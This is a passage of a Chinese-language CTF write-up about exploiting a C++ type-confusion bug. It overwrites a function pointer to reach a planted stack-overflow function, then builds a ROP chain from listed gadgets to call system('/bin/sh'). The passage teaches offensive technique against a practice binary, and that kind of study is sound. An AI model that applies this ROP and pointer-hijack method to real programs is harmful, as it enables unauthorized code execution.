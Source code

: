 ```cpp
                cin >> buf;
                strncpy(tomboy->certificate, buf.c_str(), MAX_DATA_LEN); // 此处certificate会被识别为Boy类的char*类型，因此不会报错
                tomboy->gender(); // 这里会识别为Gril类的gender实现方法
                break;
            }
            default: {
                // pass it
            }
        }
    }
}
```

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">也就是意味着我们可以修改一个函数指针并调用它。程序里预留了一个gender栈溢出漏洞函数，可以修改certificate为这个函数地址实现调用：</font>

```cpp
void gender() {
    char buf[MAX_DATA_LEN];
    cout << "If you think you are a shopping bag, please leave your gender certificate" << endl;
    read(0, buf, 0x100);
}
```

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">程序没有开PIE和Canary，且开头给出了libc上的地址，在IDA中查看buf，可以获取需要填充的偏移量：</font>

```plain
-0000000000000010 // Use data definition commands to manipulate stack variables and arguments.
-0000000000000010 // Frame size: 10; Saved regs: 8; Purge: 0
-0000000000000010
-0000000000000010     _BYTE buf[16];
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">高版本的栈溢出rop链寻找比较麻烦，这里给出一条针对此题的rop链：</font>

```plain
# 0x000000000040391a : mov rax, qword ptr [rbp - 8] ; pop rbp ; ret
# 0x0000000000402fcc : pop rbx ; pop r12 ; pop r13 ; pop rbp ; ret
# 0x000000000040201a : ret
# 0x0000000000403476 : mov rdi, rax ; call rbx
```

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">通过[rbp -8] -> rax -> rdi可以实现控制第一个参数，而通过控制rbx可以控制要调用的函数。</font>

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">我们将rbx控制为system地址，[rbp-8]控制为/bin/sh地址就可以实现调用system("/bin/sh")方法了，而要控制[rbp-8]需要在libc上找到一个调用/bin/sh地址的地址，再将old_rbp填充为这个地址+8的值，最后执行完leave后，rbp的地址就会变成这个地址+8的值。</font>
